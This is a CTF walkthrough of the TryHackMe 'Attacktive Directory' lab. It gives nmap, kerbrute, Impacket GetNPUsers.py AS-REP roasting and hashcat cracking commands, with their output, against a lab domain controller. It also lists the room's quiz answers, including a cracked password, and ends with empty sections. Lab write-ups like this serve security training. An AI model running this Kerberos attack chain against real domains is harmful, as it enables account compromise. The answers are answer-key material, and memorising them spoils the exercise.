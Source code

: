 # Attacktive Directory

- [Tools](#tools)
- [Deploy The Machine](#deploy-the-machine)
- [Setup](#setup)
- [Welcome to Attacktive Directory](#welcome-to-attacktive-directory)
- [Enumerating Users via Kerberos](#enumerating-users-via-kerberos)
- [Abusing Kerberos](#abusing-kerberos)
- [Back to the Basics](#back-to-the-basics)
- [Elevating Privileges within the Domain](#elevating-privileges-within-the-domain)
- [Flag Submission Panel](#flag-submission-panel)

Room Link: https://tryhackme.com/r/room/attacktivedirectory

## Tools
1. NMap
2. [kerbrute](https://github.com/ropnop/kerbrute/releases)
3. Impacket
4. 

## Deploy The Machine
1. Goto Access and get ovpn file to connect https://tryhackme.com/access Or, Start attackbox for testing.
2. `Start Machine` and get Target IP from "Target Machine Information".
3. Now, Click on all four Completes.

## Setup
1. Follow Instructions in this section, to `Install Impacket, Bloodhound and Neo4j`.
2. After installing click on `Complete`.

## Welcome to Attacktive Directory
1. Running nmap scan shows some open ports, command used `nmap -sV -sC 10.10.94.138`.
   ```bash
   nmap -sV -sC 10.10.94.138
   Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-24 12:12 IST
   Nmap scan report for 10.10.94.138
   Host is up (0.17s latency).
   Not shown: 987 closed tcp ports (reset)
   PORT     STATE SERVICE       VERSION
   53/tcp   open  domain        Simple DNS Plus
   80/tcp   open  http          Microsoft IIS httpd 10.0
   | http-methods: 
   |_  Potentially risky methods: TRACE
   |_http-server-header: Microsoft-IIS/10.0
   |_http-title: IIS Windows Server
   88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-24 06:49:23Z)
   135/tcp  open  msrpc         Microsoft Windows RPC
   139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
   389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
   445/tcp  open  microsoft-ds?
   464/tcp  open  kpasswd5?
   593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
   636/tcp  open  tcpwrapped
   3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
   3269/tcp open  tcpwrapped
   3389/tcp open  ms-wbt-server Microsoft Terminal Services
   |_ssl-date: 2024-08-24T06:49:42+00:00; 0s from scanner time.
   | rdp-ntlm-info: 
   |   Target_Name: THM-AD
   |   NetBIOS_Domain_Name: THM-AD
   |   NetBIOS_Computer_Name: ATTACKTIVEDIREC
   |   DNS_Domain_Name: spookysec.local
   |   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
   |   Product_Version: 10.0.17763
   |_  System_Time: 2024-08-24T06:49:33+00:00
   | ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
   | Not valid before: 2024-08-23T06:06:09
   |_Not valid after:  2025-02-22T06:06:09
   Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
   
   Host script results:
   | smb2-security-mode: 
   |   3:1:1: 
   |_    Message signing enabled and required
   | smb2-time: 
   |   date: 2024-08-24T06:49:37
   |_  start_date: N/A
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 449.40 seconds
   ```
2. Question `What tool will allow us to enumerate port 139/445?` Answer `enum4linux`. `enum4linux` can be used to enumerate `139`/`445` ports.
3. Question `What is the NetBIOS-Domain Name of the machine?` Answer `THM-AD`
4. Question `What invalid TLD do people commonly use for their Active Directory Domain?` Answer `.local`

## Enumerating Users via Kerberos
1. Now, we will bruteforce Kerberos with [kerbrute](https://github.com/ropnop/kerbrute/releases) using given `userlist.txt` and `passwordlist.txt`. So, at first we need to download those wordlists and install `kerbrute`.
2. Assign `spookysec.local` to machine ip is in `host` file. We can simply edit `/etc/hosts` file in Linux to assign domain to the ip.
3. We can use this command `kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt` to enumerate users. We got some valid usernames after scanning.
   ```bash
   james@spookysec.local
   svc-admin@spookysec.local
   robin@spookysec.local
   darkstar@spookysec.local
   administrator@spookysec.local
   backup@spookysec.local
   paradox@spookysec.local
   ```
4. Question `What command within Kerbrute will allow us to enumerate valid usernames?` Answer `userenum`.
5. Question `What notable account is discovered? (These should jump out at you)` Answer `svc-admin`. `svc-admin` typically suggests a `service account` (`svc`) with `administrative privileges` (`admin`).
6. Question `What is the other notable account is discovered? (These should jump out at you)` Answer `backup`.

## Abusing Kerberos
1. Read this section, then proceed.
2. We can use `GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass` or `GetNPUsers.py -dc-ip spookysec.local spookysec.local/ -no-pass -usersfile user.txt` after saving all users to `user.txt` to capture `TGT Token` of `svc-admin` using ASREPRoasting method.
   ```bash
   GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
   Impacket v0.12.0.dev1+20240807.21946.829239e - Copyright 2023 Fortra
   
   [*] Getting TGT for svc-admin
   $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:92f01444cd97361751ec4fb5b5ea985a$04b60fa94a84739e7db13609241d16247154e8d1f952c26a0c5063e53d08c9a4365690982460f7872d8ade23113cd4df929c85d5404f4380fdcaa5af2ee22d7988d7ee428e535be1b2dcff88bf574d418ca88c3b435cea77b6ea322b510bcf59ac1fba479d54db52104c3bec497cf1b81ddcd384bbb5d115ba2c380f0520705c7b63c88f548f17a9c6c8c1b746175b896b29555a45002ad5195a90d42c45193e42915a1107ed46a6b79da94b835f5e7bd8858c0bb7f07fecab80f7097c769da284ea270697500ea73ea223d93684e8d087248610cf7809d076d5e97564e9729ec5aa04656eaec9f3f5a92ecfaa8524346e93
   ```
3. Question `We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?` Answer `svc-admin`
4. Question `Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)` Answer `Kerberos 5 AS-REP etype 23`. Source: https://hashcat.net/wiki/doku.php?id=example_hashes
5. Question `What mode is the hash?` Answer `18200` Source: https://hashcat.net/wiki/doku.php?id=example_hashes
6. We can save the `TGT hash` inside a file named `hash.txt` with given passwordlist and crack it with `hashcat -m 18200 hash.txt --wordlist passwordlist.txt`.
7. Question `Now crack the hash with the modified password list provided, what is the user accounts password?` Answer `management2005`
   
## Back to the Basics

## Elevating Privileges within the Domain

## Flag Submission Panel

Author: Zishan Ahamed Thandar

